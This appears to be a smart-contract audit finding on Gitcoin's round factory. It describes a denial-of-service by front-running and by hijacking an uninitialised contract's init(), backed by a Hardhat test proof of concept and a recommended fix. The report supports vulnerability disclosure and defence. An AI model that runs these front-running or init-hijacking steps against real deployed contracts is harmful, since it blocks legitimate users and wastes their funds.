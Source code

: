 modern_Alchemist_00

medium

# [M] - Denial of Service attack is possible when a round contract is created from roundFactory

## Summary

The creation of round from roundFactory is prone to DOS attacks.
Since the payoutStrategy and votingStrategy are created in separate transactions
DOS attacks can be possibly be done in the following two ways, let's take Alice(the real user) and bob(attacker) here:-
1. After alice deploys the votingStrategy, bob finds about this and initilizes the contract by calling the `init()` function. And when Alice calls the `create()` function in roundFactory contract, it fails. Alice would need to redeploy a new Votingstrategy contract and do the process all over again.
2. Alice deploys both votingStrategy and payoutStrategy contracts, and then proceeds to call the `create()` from roundFactory. Bob finds this transaction in the mempool. Calls his own version of `create()` with the contract address of votingStrategy and payoutStrategy from alice, He pays more in gas and frontruns the transaction and succeeds. Alice's tx will fail and will have to redeploy both the contracts.

## Vulnerability Detail

Here's the POC for the first possible DOS attack that can be done by an attacker:
```javascript
it.only("Possible DOS attack when user creates a roundImplementation contract", async () => {
        let deployer: SignerWithAddress;
        let alice: SignerWithAddress;
        let attacker: SignerWithAddress;

        [deployer, alice, attacker] = await ethers.getSigners();

        roundContractFactory = await ethers.getContractFactory('RoundFactory');
        roundFactory = <RoundFactory>await upgrades.deployProxy(roundContractFactory);

        await roundFactory.updateAlloSettings(alloSettings.address);
        await roundFactory.updateRoundImplementation(roundImplementation.address);

        // Deploy Factory
        const quadraticFundingVotingStrategyContractFactory = await ethers.getContractFactory('QuadraticFundingVotingStrategyFactory');
        const quadraticFundingVotingStrategyFactory = <QuadraticFundingVotingStrategyFactory>await upgrades.deployProxy(quadraticFundingVotingStrategyContractFactory);

        // Deploy QuadraticFundingVotingStrategyImplementation contract
        const quadraticFundingVotingStrategyImplementationArtifact = await artifacts.readArtifact('QuadraticFundingVotingStrategyImplementation');
        const quadraticFundingVotingStrategyImplementation = <QuadraticFundingVotingStrategyImplementation>await deployContract(user, quadraticFundingVotingStrategyImplementationArtifact, []);
        
        await quadraticFundingVotingStrategyFactory.updateVotingContract(quadraticFundingVotingStrategyImplementation.address);
        // // Alice creates the voting strategy contract from the Factory
        const tx = await quadraticFundingVotingStrategyFactory.connect(alice).create();
        
        const receipt = await tx.wait();

        let votingContractAddress;
        let votingImplementation;
        
        if (receipt.events) {
          const event = receipt.events.find(e => e.event === 'VotingContractCreated');
          if (event && event.args) {            
            
            votingContractAddress = event.args.votingContractAddress;
            votingImplementation = event.args.votingImplementation;
          }
        }

        const votingStrategyContract = await ethers.getContractAt('QuadraticFundingVotingStrategyImplementation', votingContractAddress);

        // Attacker finds this and calls the init function
        await votingStrategyContract.connect(attacker).init();
        
        // Alice does not know this and wants to create a round with this votingStrategy contract that she just created
        const initAddress = [
          votingStrategyContract.address, // votingStrategy
          payoutStrategy.address, // payoutStrategy
        ];

        const initRoundTime = [
          _currentBlockTimestamp + 100, // applicationsStartTime
          _currentBlockTimestamp + 250, // applicationsEndTime
          _currentBlockTimestamp + 500, // roundStartTime
          _currentBlockTimestamp + 1000, // roundEndTime
        ];

        const initMetaPtr = [
          { protocol: 1, pointer: "bafybeia4khbew3r2mkflyn7nzlvfzcb3qpfeftz5ivpzfwn77ollj47gqi" }, // roundMetaPtr
          { protocol: 1, pointer: "bafybeiaoakfoxjwi2kwh43djbmomroiryvhv5cetg74fbtzwef7hzzvrnq" }, // applicationMetaPtr
        ];

        const initRoles = [
          [ alice.address ], // adminRoles
          [ Wallet.createRandom().address, Wallet.createRandom().address ] // roundOperators
        ];

        params = [
          initAddress,
          initRoundTime,
          matchAmount,
          token,
          roundFeePercentage,
          roundFeeAddress,
          initMetaPtr,
          initRoles
        ];

        const txn = roundFactory.connect(alice).create(
          encodeRoundParameters(params),
          alice.address,
        );

        // Alice won't be able to create the round and would need to redeply the votingStrategy contract again
        await expect(txn).to.revertedWith("init: roundAddress already set");

      })
```

## Impact

User won't be able to create a new round contract because of this. This attack is going to be cheap especially on the fantom network.
Also, attackers can also steal your payout strategy and voting strategy contracts helping them save some gas when deploying on ethereum mainnet.

## Code Snippet
- https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/payoutStrategy/IPayoutStrategy.sol#L92
- https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/votingStrategy/IVotingStrategy.sol#L36

## Tool used
Manual review, Hardhat

## Recommendation

To ensure maximum security, it is recommended to create a function with the onlyOwner modifier in both the payoutStrategy and votingStrategy contracts. This function can be used by the owner to manually add the round address to the contracts.
